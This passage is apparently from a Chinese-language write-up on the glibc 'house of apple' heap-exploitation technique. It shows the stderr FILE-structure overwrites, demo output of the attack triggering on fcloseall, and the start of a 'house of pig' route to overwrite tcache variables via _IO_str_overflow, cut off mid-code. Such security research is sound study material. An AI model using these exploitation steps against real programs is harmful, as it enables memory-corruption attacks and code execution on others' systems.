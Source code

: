 ```cpp
```

即做了如下修改：

```cpp
stderr+0x28 = -1（stderr->_IO_write_ptr）
stderr+0x74 = 8（stderr->_flags2）
stderr+0xa0 = target（stderr->_wide_data）
stderr+0xd8 == _IO_wstrn_jumps（stderr->vtable）
```

输出结果为

```bash
roderick@ee8b10ad26b9:~/hack$ gcc demo.c -o demo -g -w && ./demo
[*] allocate a 0x100 chunk
===========================old value=======================
[0x55cfb956d2a0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2b0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2c0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2d0]: 0x1122334455667788  0x1122334455667788
===========================old value=======================
[*] puts address: 0x7f648b8a6ef0
[*] stderr->_IO_write_ptr address: 0x7f648ba406a8
[*] stderr->_flags2 address: 0x7f648ba406f4
[*] stderr->_wide_data address: 0x7f648ba40720
[*] stderr->vtable address: 0x7f648ba40758
[*] _IO_wstrn_jumps address: 0x7f648ba3bdc0
[+] step 1: change stderr->_IO_write_ptr to -1
[+] step 2: change stderr->_flags2 to 8
[+] step 3: replace stderr->_wide_data with the allocated chunk
[+] step 4: replace stderr->vtable with _IO_wstrn_jumps
[+] step 5: call fcloseall and trigger house of apple
===========================new value=======================
[0x55cfb956d2a0]: 0x00007f648ba40770  0x00007f648ba40870
[0x55cfb956d2b0]: 0x00007f648ba40770  0x00007f648ba40770
[0x55cfb956d2c0]: 0x00007f648ba40770  0x00007f648ba40770
[0x55cfb956d2d0]: 0x00007f648ba40770  0x00007f648ba40870
===========================new value=======================
```

## 利用思路

### 思路一：修改tcache线程变量

这里需要利用 `house of pig` ，利用 `_IO_str_overflow` 中的 `malloc` 进行的任意地址分配并且利用 `memcpy` 进行覆盖

```cpp
int
_IO_str_overflow (FILE *fp, int c)
{
        // ......
      char *new_buf;
      char *old_buf = fp->_IO_buf_base; // 赋值为old_buf
      size_t old_blen = _IO_blen (fp);
      size_t new_size = 2 * old_blen + 100;
      if (new_size < old_blen)
        return EOF;
      new_buf = malloc (new_size); // 这里任意地址分配
      if (new_buf == NULL)
        {
          /*      __ferror(fp) = 1; */
          return EOF;
        }
      if (old_buf)
        {
```